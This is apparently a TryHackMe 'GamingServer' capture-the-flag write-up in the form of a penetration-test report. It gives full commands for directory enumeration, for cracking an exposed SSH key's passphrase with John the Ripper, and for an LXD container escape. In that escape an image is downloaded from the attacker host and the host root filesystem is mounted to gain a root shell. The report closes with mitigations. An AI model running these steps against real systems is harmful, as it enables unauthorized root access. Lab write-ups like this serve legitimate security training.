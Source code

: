 # Vulnerability Assessment and Penetration Testing (VAPT) Report – GamingServer

**Prepared by:** Nishanth Antony  
**Date:** August 29, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify open ports and hidden directories on the target.  
**Commands Used:**  
- `rustscan $IP`  
- `gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`  

**Findings:**  
- Open ports: SSH (22) and HTTP (80).  
- Gobuster revealed a hidden `/secret` directory containing an SSH key.  

---

## 2. Exploitation Process  
**Step 1 – SSH Key Retrieval and Cracking**  
- Downloaded `SecretKey` from `/secret`.  
- Converted to hash format:  
  `python ssh2john.py SecretKey > id_rsa.hash`  
- Cracked passphrase with John the Ripper:  
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Note: This format may emit false positives, so it will keep trying even after
  finding a possible candidate.
  Press 'q' or Ctrl-C to abort, almost any other key for status
  letmein          (id_rsa)
  1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
  Session completed
  ```
- Identified username `john` from `https://$IP/index.html` source code.  

**Step 2 – SSH Access as John**  
- Connected via SSH:  
  `ssh john@$IP -i ./SecretKey`  
- Entered passphrase `letmein` to log in.  
- Retrieved user flag:  
  ```bash
  cat user.txt
  a****************e
  ```
- Outcome: User flag retrieved.  

**Step 3 – Privilege Escalation via LXD**  
- Noticed membership in `lxd` group via `id` command.  
- Built Alpine image locally:  
  ```bash
  git clone https://github.com/saghul/lxd-alpine-builder.git
  cd lxd-alpine-builder
  ./build-alpine
  ```
- Started web server:  
  `python -m SimpleHTTPServer`  
- Downloaded image to target:  
  `cd /tmp`  
  `wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz`  
- Imported and initialized container:  
  ```bash
  lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
  lxc init myimage ignite -c security.privileged=true
  lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
  lxc start ignite
  lxc exec ignite /bin/sh
  whoami
  ```
- Retrieved root flag:  
  ```bash
  cat mnt/root/root/flag.txt
  2************c
  ```
- Outcome: Root flag retrieved.  

---

## 3. Proof of Concept (PoC)  
- **SSH Key Cracking:**  
  `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash` yielded `letmein`.  
- **LXD Privilege Escalation:**  
  Imported Alpine image and mounted root filesystem to gain root shell.  

---

## 4. Privilege Escalation  
- Exploited LXD container privileges to mount the root filesystem and access the root flag.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Restrict access to sensitive directories (e.g., `/secret`).  
- **SSH Security:**  
  - Avoid exposing private keys; enforce strong passphrases and restrict key usage.  
- **Privilege Management:**  
  - Limit `lxd` group membership to authorized users only.  
  - Disable unprivileged container creation if not needed.  
- **Patch Management:**  
  - Update OpenSSH and web server software to latest versions.  
  - Monitor for unauthorized container activity.  

---

## 6. Lessons Learned  
- **Exposed Credentials:** Hidden SSH keys are vulnerable if accessible via web directories.  
- **LXD Exploitation:** Membership in `lxd` group can lead to privilege escalation.  
- **Enumeration Importance:** Thorough directory scanning reveals critical assets.  

---

## 7. Skills Practiced  
- Network scanning (rustscan)  
- Web directory enumeration (gobuster)  
- SSH key cracking (ssh2john, john)  
- LXD privilege escalation  
- Secure reporting and mitigation strategies  
